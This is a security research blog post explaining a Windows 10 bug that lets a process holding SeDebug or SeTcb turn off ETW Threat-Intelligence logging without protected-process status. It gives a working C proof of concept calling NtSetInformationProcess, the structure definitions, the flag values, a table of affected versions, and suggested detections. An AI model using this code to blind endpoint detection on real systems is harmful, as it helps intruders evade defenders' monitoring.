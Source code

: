 ```yaml
---
layout: post
title: "ETW-ByeBye: Disabling ETW-TI Without PPL"
date: 2024-04-24 12:15:00 +1000
categories: DefenseEvasion Windows
---
```


# Intro

Back in October of 2023, RiskInsight published a blog post that caught my attention. The post explained [A universal EDR bypass built in Windows 10](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/), detailed a "bug" that allows a user to disable logging of certain ETW-TI events for a given process from user mode **without** the expected PPL requirement.

As RiskInsight already explained this in detail, I will not be explaining background on how ETW-TI works under the hood. I will simply be building upon their blog post, with the aim of showing how I went from their post to a functional POC. 

# Contents

1. [Intro](#intro)
2. [Exploitation Requirements](#exploitation-requirements)  
3. [The Bug](#the-bug) 
4. [Building A POC](#building-a-poc) 
5. [Potential Detections](#potential-detections) 
6. [References](#references) 

# Exploitation Requirements

In order to exploit this bug, you require either `SeDebug` or `SeTcb` privileges to be enabled, and be on one of the following vulnerable Windows versions: 

|                                          |   Win10 1507 -> 1703  |   Win10 1709 -> 1803  |   Win10 1809 -> 22H2  |   Win11 21H2 -> 22H2  |
| ---------------------------------------- | --------------------- | --------------------- | --------------------- | --------------------- |
| Read virtual memory operation            | N/A                   | Vulnerable            | Vulnerable            | Patched               |
| Write virtual memory operation           | N/A                   | Vulnerable            | Vulnerable            | Patched               |
| Process suspension / resuming operations | N/A                   | N/A                   | Vulnerable            | Patched               |
| Thread suspension / resuming operations  | N/A                   | N/A                   | Vulnerable            | Patched               |

Thanks to RiskInsight for this table: [Source](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/)

# The Bug

As ETW-TI can raise a large number of events, it is enabled on a per-process basis. To do so, you make a call to `NtSetInformationProcess`, specifying either `ProcessEnableReadWriteVmLogging` or  `ProcessEnableLogging` as the `ProcessInformationClass`.

The intention is that alongside the permissions mentioned prior, in order to disable ETW-TI event logging, the process should be a protected process `PROTECTED_ANTIMALWARE_LIGHT`, and thus signed by Microsoft. However, this check is missing on the aforementioned windows versions, and so only the token permission checks are in place. Again, RiskInsight went into a lot of detail about this, and so if you want to find out more, feel free to give [their post](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/) a read.

Taking a look at a cleaned up binary ninja decompilation, we see the token permissions checks (and can confirm that there are no PPL checks in place):

![image of binary ninja decompilation of NtSetInformationProcess](/assets/img/posts/disabling-etw-ti-without-ppl/binary-ninja-decompilation.png)

# Building A POC

The first step to building a functional proof-of-concept was figuring out the related structures/enum definitions. Thanks to various public resources, namely [ntdoc.m417z.com](https://ntdoc.m417z.com) and [jsecurity101.medium.com/uncovering-windows-events](https://jsecurity101.medium.com/uncovering-windows-events-b4b9db7eac54) learning about the required structures and enums was easy.

Regarding the `PROCESS_INFO_CLASS` enum, I referenced [ntdoc.m417z.com/processinfoclass](https://ntdoc.m417z.com/processinfoclass), and to figure out what to pass as our `ProcessInformation`, I referenced [ntdoc.m417z.com/process_readwritevm_logging_information](https://ntdoc.m417z.com/process_readwritevm_logging_information) and [ntdoc.m417z.com/process_logging_information](https://ntdoc.m417z.com/process_logging_information). This resulted in having the following definitions:

**PROCESS_INFO_CLASS** 
```c
typedef enum _PROCESSINFOCLASS
{
    // [SNIPPED FOR BREVITY]
    ProcessEnableReadWriteVmLogging = 0x57, // qs: PROCESS_READWRITEVM_LOGGING_INFORMATION
    // [SNIPPED FOR BREVITY]
    ProcessEnableLogging = 0x60, // qs: PROCESS_LOGGING_INFORMATION
} PROCESSINFOCLASS;
```

**PROCESS_READWRITEVM_LOGGING_INFORMATION** 
```c
typedef struct _PROCESS_READWRITEVM_LOGGING_INFORMATION
{
    UCHAR Flags;
    UCHAR EnableReadVmLogging;
    UCHAR EnableWriteVmLogging;
    UCHAR Unused = 6;
} PROCESS_READWRITEVM_LOGGING_INFORMATION, *PPROCESS_READWRITEVM_LOGGING_INFORMATION;
```

**PROCESS_LOGGING_INFORMATION** 
```c
typedef struct _PROCESS_LOGGING_INFORMATION
{
    ULONG Flags;
    ULONG EnableReadVmLogging;
    ULONG EnableWriteVmLogging;
    ULONG EnableProcessSuspendResumeLogging;
    ULONG EnableThreadSuspendResumeLogging;
    //ULONG EnableLocalExecProtectVmLogging;  // New in Win11
    //ULONG EnableRemoteExecProtectVmLogging; // New in Win11
    ULONG Reserved = 26;
} PROCESS_LOGGING_INFORMATION, * PPROCESS_LOGGING_INFORMATION;
```

With all this ready, I just had to figure out what values to set, I'll save you the trouble and just let you know that `Flags` should be set to `0xf` in all cases.

From there, just make a simple call to `NtSetInformationProcess` as follows, there's nothing more to it :)

```c
int main(int argc, char** argv, char** envp)
{
    HMODULE Ntdll = GetModuleHandleA("ntdll.dll");
    typeNtSetInformationProcess NtSetInformationProcess = (typeNtSetInformationProcess)GetProcAddress(Ntdll, "NtSetInformationProcess");

    // Prepare for NtSetInformationProcess
    PROCESS_LOGGING_INFORMATION ProcessLoggingInformation = { 0 };
    ProcessLoggingInformation.Flags = (ULONG)0xf;
    ProcessLoggingInformation.EnableReadVmLogging = 1;
    ProcessLoggingInformation.EnableWriteVmLogging = 1;
    ProcessLoggingInformation.EnableProcessSuspendResumeLogging = 1;
    ProcessLoggingInformation.EnableThreadSuspendResumeLogging = 1;
    ProcessLoggingInformation.Reserved = 26;

    NTSTATUS Status = NtSetInformationProcess(
        (HANDLE)-1,
        (ULONG)ProcessEnableLogging,
        &ProcessLoggingInformation,
        sizeof(_PROCESS_LOGGING_INFORMATION));

    if (NT_SUCCESS(Status))
    {
        printf("[+] Successfully disabled the following ETW-Ti events\n"
               " - ReadVmLogging\n"
               " - WriteVmLogging\n"
               " - ProcessSuspendResumeLogging\n"
               " - ThreadSuspendResumeLogging\n");
    }
    else
    {
        printf("[!] Error, status 0x%08X\n", Status);
    }

	return 0;
}
```

# Potential Detections / Preventions

Important to note that regarding how practical these are, they are purely speculation on my part.

1. Hooking NtSetInformationProcess in user mode
    - This can very likely be bypassed albeit still a line of defense.
2. Walking the `KPROCESS` list and checking if ETW-TI has been disabled for a non-expected process
    - Not sure how viable this is due to potentially having to set a spinlock on the list, but would be a very powerful integrity check if doable.
3. Lack of ETW-TI telemetry
    - Checking if a process is raising no events of a common event type e.g. `ReadVmLogging`. (Credit to [@bakki](https://twitter.com/shubakki))
4. Update to Windows 11
    - As this bug no longer exists on Windows 11, if migration is possible I will always recommend this over alternatives. 

# References

- [A universal EDR bypass built in Windows 10](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/) - RiskInsight's blog post of which inspired me to build this POC. 
- [SealighterTI](https://github.com/pathtofile/SealighterTI) - A tool to test the Thread-Intelligence ETW Provider 
- [Tweet - First Seen Usage?](https://x.com/SBousseaden/status/1745022464965349628)
- [NtDoc](https://ntdoc.m417z.com/)
